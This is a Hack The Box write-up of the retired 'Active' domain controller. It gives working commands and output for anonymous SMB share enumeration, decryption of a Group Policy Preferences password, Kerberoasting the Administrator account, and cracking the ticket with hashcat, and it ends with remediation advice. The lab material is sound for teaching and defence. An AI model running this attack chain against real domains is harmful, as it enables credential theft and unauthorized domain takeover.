

# Active - Hack The Box Write-Up

## Machine Information

| Field            | Value                                                                                                             |
| ---------------- | ----------------------------------------------------------------------------------------------------------------- |
| Machine          | Active                                                                                                            |
| Platform         | Hack The Box                                                                                                      |
| Status           | Retired                                                                                                           |
| Operating system | Windows Server 2008 R2 SP1                                                                                        |
| Difficulty       | Easy                                                                                                              |
| Role             | Active Directory domain controller (`active.htb`)                                                                 |
| Primary services | DNS, Kerberos, LDAP, SMB, RPC, Active Directory Web Services                                                      |
| Main techniques  | Anonymous SMB enumeration, Group Policy Preferences credential recovery, Kerberoasting, offline password cracking |

## Executive Summary

The domain controller exposed a custom `Replication` SMB share to unauthenticated users. The share contained replicated Group Policy data, including a `Groups.xml` file with a Group Policy Preferences (GPP) `cpassword` value for the `SVC_TGS` domain account. Because Microsoft published the static AES key used by legacy GPP password storage, the value could be decrypted offline.

The recovered account authenticated successfully and could read the `Users` share, which provided access to the user objective. It also supplied the domain credentials required to request Kerberos service tickets. Enumeration revealed that a CIFS service principal name (SPN) was assigned to the built-in `Administrator` account. A requested RC4 TGS-REP was cracked offline with a wordlist, recovering the administrator password.

The administrator credential authenticated to SMB with administrative rights and allowed the final objective to be retrieved from the administrator profile. Unlike many Windows machines, this path required no uploaded payload or interactive shell: the domain was compromised entirely through exposed policy data, weak identity configuration, and legitimate SMB and Kerberos behavior.



## Placeholder and Redaction Conventions

The following placeholders are used because Hack The Box instance addresses change and recovered credentials should not be published:

| Placeholder | Meaning |
| --- | --- |
| `<TARGET_IP>` | Current IP address assigned to Active |
| `<GPP_CPASSWORD>` | Redacted encrypted GPP password value |
| `<SVC_TGS_PASSWORD>` | Redacted password recovered for `SVC_TGS` |
| `<ADMIN_PASSWORD>` | Redacted password recovered for `Administrator` |
| `<REDACTED>` | Sensitive credential or ticket material removed from captured output |

No user or administrator flag value is included.

## Reconnaissance

### Full TCP Scan

A full TCP scan identified the services expected on an Active Directory domain controller:

```bash
nmap -sC -sV -p- -Pn <TARGET_IP> \
  --min-rate=10000 \
  -oA nmap/all-ports
```

The most relevant results were:

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601
88/tcp    open  tcpwrapped
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Active Directory LDAP
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Active Directory LDAP
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft-HTTPAPI/2.0
```

LDAP identified the domain as `active.htb`, while DNS identified Windows build `7601`, corresponding to Windows Server 2008 R2 SP1. The combination of DNS, Kerberos, LDAP, SMB, and global-catalog ports established that the target was a domain controller.

The SMB scripts also reported that signing was required and SMBv1 was disabled. These are valuable protections against relay and legacy-protocol attacks, but they do not prevent access to data that a share explicitly permits an anonymous user to read.

The domain names were mapped locally for consistent name resolution:

```text
<TARGET_IP> DC active.htb DC.active.htb
```

### Anonymous SMB Enumeration

A null-credential SMB request successfully enumerated the available shares:

```bash
nxc smb <TARGET_IP> -u '' -p '' --shares
```

```text
Share        Permissions  Remark
-----        -----------  ------
ADMIN$                    Remote Admin
C$                        Default share
IPC$                      Remote IPC
NETLOGON                   Logon server share
Replication  READ
SYSVOL                     Logon server share
Users
```

The critical result was anonymous `READ` permission on `Replication`. This was not the normal `SYSVOL` share: it was a separate share containing a copy of the domain's replicated policy directory.

The complete share was downloaded for local review:

```bash
mkdir smb
cd smb
smbclient //<TARGET_IP>/Replication -U '%' \
  -c 'prompt off;recurse on;mget *'
```

The downloaded tree included two policy GUIDs. One contained a Group Policy Preferences file at:

```text
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/
└── MACHINE/
    └── Preferences/
        └── Groups/
            └── Groups.xml
```

## Credential Access and Initial User Access

### Group Policy Preferences Password Recovery

`Groups.xml` defined the `active.htb\SVC_TGS` account and contained a `cpassword` attribute:

```xml
<User name="active.htb\SVC_TGS">
  <Properties
    cpassword="<GPP_CPASSWORD>"
    userName="active.htb\SVC_TGS"
    neverExpires="1"
    acctDisabled="0" />
</User>
```

Legacy Group Policy Preferences did not safely protect passwords. The `cpassword` field was encrypted with AES, but every installation used a key published in Microsoft's protocol documentation. Anyone who obtained the XML could therefore decrypt the value offline.

Microsoft addressed this behavior in MS14-025 / CVE-2014-1812 by preventing administrators from creating new password-bearing preference items. Importantly, the update did not remove credentials already stored in existing policies. Active compounded the historical GPP weakness by exposing its replicated policy data without authentication, removing even the authenticated-domain-user prerequisite described in Microsoft's advisory.

The encrypted value was decrypted locally:

```bash
gpp-decrypt '<GPP_CPASSWORD>'
```

```text
<SVC_TGS_PASSWORD>
```

The result was validated rather than assumed:

```bash
nxc smb <TARGET_IP> \
  -u SVC_TGS \
  -p '<SVC_TGS_PASSWORD>' \
  --shares
```

```text
[+] active.htb\SVC_TGS:<REDACTED>

Share        Permissions
-----        -----------
NETLOGON     READ
Replication READ
SYSVOL       READ
Users        READ
```

This confirmed a valid domain credential and expanded access to the `Users` share.

### Retrieving the User Objective

The authenticated account could browse its domain profile:

```bash
smbclient //<TARGET_IP>/Users -U 'active.htb/SVC_TGS'
```

```text
smb: \> cd SVC_TGS
smb: \SVC_TGS\> dir Desktop\
  user.txt
smb: \SVC_TGS\> get Desktop\user.txt
```

The successful download established user-level access. The flag contents are intentionally omitted.

## Privilege Escalation

### Kerberoastable Administrator Account

Any authenticated domain user can request a service ticket for an account with an SPN. The ticket contains data protected with a key derived from the service account's password, allowing guesses to be tested offline without generating additional authentication attempts against the domain controller.

`SVC_TGS` was used to enumerate SPNs and request the associated ticket:

```bash
impacket-GetUserSPNs \
  -dc-ip <TARGET_IP> \
  'active.htb/SVC_TGS:<SVC_TGS_PASSWORD>' \
  -request \
  -outputfile hashes.kerberoast
```

The first request failed:

```text
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

The earlier Nmap scan measured a time difference of approximately five minutes. Kerberos relies on synchronized clocks to limit ticket replay, so the attacking host was synchronized with the domain controller:

```bash
sudo ntpdate <TARGET_IP>
```

Repeating the request identified a high-impact SPN assignment:

```text
ServicePrincipalName  Name
--------------------  -------------
active/CIFS:445       Administrator
```

This was the decisive configuration error. Instead of being attached to a dedicated, minimally privileged service account, the SPN was mapped to the built-in domain `Administrator` account.

The saved ticket began with the following signature:

```text
$krb5tgs$23$*Administrator$ACTIVE.HTB$...<REDACTED>
```

Etype `23` indicates RC4-HMAC TGS-REP material, which Hashcat handles as mode `13100`. The ticket was tested against `rockyou.txt`:

```bash
hashcat hashes.kerberoast /usr/share/wordlists/rockyou.txt
```

```text
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Status...........: Cracked
Recovered........: 1/1 (100.00%)
```

The recovered password is deliberately represented as `<ADMIN_PASSWORD>`. Cracking succeeded because the administrator account used a human-chosen password present in a common wordlist; Kerberos itself was functioning as designed.

### Administrative SMB Access

The recovered credential was validated against SMB:

```bash
nxc smb <TARGET_IP> \
  -u Administrator \
  -p '<ADMIN_PASSWORD>'
```

```text
[+] active.htb\Administrator:<REDACTED> (Pwn3d!)
```

NetExec's `Pwn3d!` marker established that the account held administrative access on the domain controller. The same credential provided access to the administrator profile:

```bash
smbclient //<TARGET_IP>/Users -U 'active.htb\Administrator'
```

```text
smb: \> cd Administrator\Desktop
smb: \Administrator\Desktop\> get root.txt
```

The final objective was retrieved without displaying its contents. No interactive shell was required or claimed: the evidence establishes compromise through authenticated administrative SMB access.

## Trust and Privilege Boundaries

| Stage | Identity and context | Security boundary crossed |
| --- | --- | --- |
| Share enumeration | Unauthenticated network user | Reached replicated domain policy data through an anonymous SMB permission |
| GPP decryption | Offline attacker | Converted exposed, reversibly encrypted policy data into a valid domain credential |
| Authenticated access | `active.htb\SVC_TGS` | Entered the domain as a low-privileged user and gained read access to domain shares |
| Kerberoasting | `active.htb\SVC_TGS` plus offline cracking | Recovered the password of the SPN-owning account without repeated domain logons |
| Administrative access | `active.htb\Administrator` | Obtained administrative control over the Active Directory domain controller |

The final identity is the domain's built-in `Administrator` account. On a domain controller this is not a local workstation administrator, application administrator, or Linux-style `root` context; it is a domain-privileged account whose compromise implies control of the domain.

## Security Observations and Remediation

| Observation | Impact | Recommended control |
| --- | --- | --- |
| The custom `Replication` share allowed anonymous reads | An unauthenticated user could retrieve domain policy files and bootstrap the entire attack | Remove anonymous access, restrict share and NTFS permissions to required principals, and audit nonstandard shares on domain controllers |
| A legacy GPP `cpassword` remained in replicated policy data | The `SVC_TGS` password was recoverable with a publicly documented key | Remove all password-bearing preference items and historical copies, rotate every exposed credential, and scan `SYSVOL` and replicated backups for `cpassword` |
| The service credential was configured never to expire | Exposure could remain useful indefinitely | Use managed rotation and avoid non-expiring passwords; prefer group Managed Service Accounts where applicable |
| An SPN was assigned to the built-in `Administrator` account | Any authenticated user could obtain password-verification material for a domain-privileged identity | Remove service roles from privileged human accounts and assign SPNs only to dedicated least-privileged service identities |
| The administrator password was wordlist-crackable and the ticket used RC4 | A single service-ticket request led to offline recovery of a domain administrator password | Use long, random service passwords, gMSAs, and AES Kerberos encryption; disable RC4 where compatibility permits |
| RC4 service-ticket requests were accepted for a privileged SPN | The returned ticket could be subjected to an offline password attack | Monitor Event ID 4769 for unusual SPN targeting, RC4 ticket encryption, and abnormal ticket-request patterns |
| The host ran Windows Server 2008 R2 SP1 | An obsolete domain controller platform increases systemic security and maintenance risk | Migrate Active Directory services to a currently supported Windows Server release |

The target did have SMB signing enabled and SMBv1 disabled. These controls should be retained, but they cannot compensate for overly permissive share access or exposed credentials.

## Key Lessons

1. “Encrypted” is not equivalent to secret when every environment uses a published decryption key.
2. Patching MS14-025 prevents new GPP passwords but does not automatically remove old `cpassword` values; cleanup and credential rotation are separate tasks.
3. Share permissions can erase an attack prerequisite. Here, anonymous access exposed data that Microsoft normally expected an authenticated domain user to reach.
4. Kerberoasting abuses legitimate ticket issuance. The real failures were the privileged SPN assignment, RC4 ticket encryption, and a weak administrator password.
5. Full compromise does not always require code execution. Valid domain credentials and ordinary administrative protocols may be sufficient.
6. Time synchronization errors are diagnostically useful: `KRB_AP_ERR_SKEW` indicates that the Kerberos exchange reached the domain controller but failed freshness validation.

## References

- [Hack The Box: Active](https://www.hackthebox.com/machines/active)
- [Microsoft Security Bulletin MS14-025: Vulnerability in Group Policy Preferences](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025)
- [Microsoft Open Specifications: MS-GPPREF Password Encryption](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
- [Microsoft Defender for Identity: Group Policy security assessments](https://learn.microsoft.com/en-us/defender-for-identity/modified-unprivileged-accounts-gpo)
- [Microsoft Lifecycle: Windows Server 2008 R2](https://learn.microsoft.com/en-us/lifecycle/products/windows-server-2008-r2)
- [MITRE ATT&CK T1558.003: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
